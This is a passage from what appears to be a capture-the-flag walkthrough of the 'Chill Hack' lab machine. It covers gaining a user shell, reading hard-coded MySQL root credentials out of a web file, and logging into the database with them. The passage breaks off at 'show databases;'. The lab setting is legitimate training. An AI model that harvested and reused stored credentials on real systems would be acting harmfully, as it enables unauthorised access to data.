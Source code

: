
Cool, we should be able to get some execution here:

![su.png](../assets/chill_hack_assets/su.png)

Nice, we are now user apaar and can grab the local.txt flag:

![user_flag.png](../assets/chill_hack_assets/user_flag.png)

### Privilege Escalation

Browsing around the box a bit I found the file `/var/www/files/index.php` which had some hard coded mysql credentials.

![msql_creds.png](../assets/chill_hack_assets/msql_creds.png)

Lets use these to access the database:

```text
apaar@ubuntu:/var/www/files$ mysql -u root -p'!@m+her00+@db'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

No entry for terminal type "unknown";
using dumb terminal settings.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
```